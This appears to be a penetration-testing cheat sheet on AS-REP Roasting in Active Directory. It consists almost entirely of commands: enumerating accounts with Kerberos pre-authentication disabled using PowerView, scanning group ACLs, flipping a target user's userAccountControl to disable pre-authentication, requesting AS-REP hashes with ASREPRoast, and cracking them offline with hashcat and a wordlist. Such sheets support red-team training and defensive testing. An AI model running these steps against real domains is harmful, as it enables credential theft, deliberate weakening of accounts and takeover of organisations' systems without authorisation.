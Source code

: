 # 🟢 AS-REPS Roasting

```
. .\Powerview_dev.ps1
```

### **Enumerating accounts with Kerberos pre-auth disabled**

```
Get-DomainUser -PreauthNotRequired -Verbose
```

```
Get-DomainUser -PreauthNotRequired -verbose | select samaccountname
```

**Enumerate permissions for group**

{% code overflow="wrap" %}
```
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”}
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”} | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
```
{% endcode %}

### **Set pre-auth not required**

```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

### **Request encrypted AS-REP**

```
. ./ASREPRoast.ps1
Get-ASREPHash -Username <username> -Verbose
```

### **Enumerate all users with Kerberos pre-auth disabled and request a hash**

```
Invoke-ASREPRoast -Verbose
Invoke-ASREPRoast -Verbose | fl
```

**Crack the hash with hashcat**

```
Hashcat -a 0 -m 18200 hash.txt rockyou.txt
```
